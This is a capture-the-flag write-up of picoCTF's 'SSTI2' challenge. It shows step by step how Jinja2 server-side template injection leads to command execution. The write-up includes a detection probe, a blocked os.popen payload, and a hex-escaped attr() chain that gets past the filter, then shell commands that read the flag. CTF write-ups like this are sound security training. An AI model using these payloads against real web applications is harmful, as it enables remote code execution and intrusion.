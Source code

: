 # 🧨 SSTI2 — Jinja2 Template Injection to Shell Execution (picoCTF)

**Author:** picoCTF Team  
**Category:** Web Exploitation  
**Difficulty:** 🟠 Medium  
**Tags:** `SSTI`, `Jinja2`, `RCE`, `Template Injection`, `Filter Bypass`

---

## 📘 Description

> A server is rendering user input inside templates... can you make it execute a command and leak the flag?

---

## 🚀 Challenge Deployment


---

## 🔥 Vulnerability: Server-Side Template Injection (SSTI)

The target application renders unsanitized user input within Jinja2 templates. This allows arbitrary code execution if filters are not strict.

---

## 💣 Exploitation Steps

### 🧪 Step 1: Confirm Template Injection

```jinja2
{{7*'7'}}
```
📥 Response:

```
7777777
```
✅ Jinja2 confirmed.


### 🔐 Step 2: Attempt Classic RCE Payload (Blocked)
```jinja2

{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
❌ Blocked by filter

### 🧠 Step 3: Bypass Filter with Obfuscated Payload
Inspired by SecGus PayloadsAllTheThings contribution

```jinja2

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
✅ Successfully bypassed the filter

### 🗂️ Step 4: Interact with Shell
```bash
ls
cat flag
```
📥 Output:
```
picoCTF{sst1_f1lt3r...}
```
